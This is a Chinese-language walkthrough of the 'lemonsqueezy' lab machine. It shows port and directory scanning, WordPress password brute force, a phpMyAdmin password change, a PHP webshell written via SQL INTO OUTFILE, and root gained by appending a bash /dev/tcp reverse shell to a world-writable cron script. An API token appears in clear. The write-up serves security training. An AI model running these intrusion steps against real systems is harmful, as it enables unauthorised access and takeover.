

## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p80  192.168.10.22
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-08 07:26 EDT
Nmap scan report for 192.168.10.22
Host is up (0.00064s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 00:0C:29:E2:78:CF (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
```

只有一个80端口

## web渗透

初始80端口就一个apche默认页面
先目录扫描一波
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ gobuster  dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.10.22/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.22/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.10.22/wordpress/]
/manual               (Status: 301) [Size: 315] [--> http://192.168.10.22/manual/]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.10.22/javascript/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://192.168.10.22/phpmyadmin/]
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```


### wpscan

有wordpress直接开扫，先枚举两个用户
wpscan --url http://192.168.10.22/wordpress -e u --api-token tYtl343tIjp9AjUaIHnLdZHA3QaRestXTHc7aBI59Jw


爆破user密码
wpscan --url http://192.168.10.22/wordpress --passwords /usr/share/wordlists/rockyou.txt  --usernames lemon,orange

orange/ginger

### 后台信息收集

本来还想找找nday打后台
结果这里直接给了一个密码
n0t1n@w0rdl1st!
去登陆phpmyadmin

### phymyadmin sql修改密码
可以登录phpmyadmin
原凭证信息：
lemon
$P$ByDvlux0J/6CvT2nU20bxqp/5mDxc00
修改lemon的密码

lemon/123456

登录了lemon号后没什么可利用的
文件都不可写，没找到上传点说是

### sql写马

回到phpmyadmin
show global variables like '%secure%'

得到sql数据库`secure_file_priv`为空
对文件没有限制
那么就可以写马进去了
select '<?php phpinfo(); ?>' into outfile "/var/www/html/wordpress/test.php";



写一句话拿shell

## 提权

```bash
www-data@lemonsqueezy:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate
#
www-data@lemonsqueezy:/$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
www-data@lemonsqueezy:/$ ls -la /etc/logrotate.d/logrotate
ls -la /etc/logrotate.d/logrotate
-rwxrwxrwx 1 root root 101 Apr 26  2020 /etc/logrotate.d/logrotate
```
这里直接写入反弹shell就可以了
```bash
www-data@lemonsqueezy:/$ echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.12/2333 0>&1'" >>/etc/logrotate.d/logrotate
<.168.10.12/2333 0>&1'" >/etc/logrotate.d/logrotate
www-data@lemonsqueezy:/$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.12/2333 0>&1'
```

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ nc -lvnp 2333
listening on [any] 2333 ...
connect to [192.168.10.12] from (UNKNOWN) [192.168.10.22] 34348
bash: cannot set terminal process group (2421): Inappropriate ioctl for device
bash: no job control in this shell
root@lemonsqueezy:~# whoami
whoami
root
root@lemonsqueezy:~# ls /root
ls /root
root.txt
root@lemonsqueezy:~# cat /root/root.txt
cat /root/root.txt
NvbWV0aW1lcyBhZ2FpbnN0IHlvdXIgd2lsbC4=
```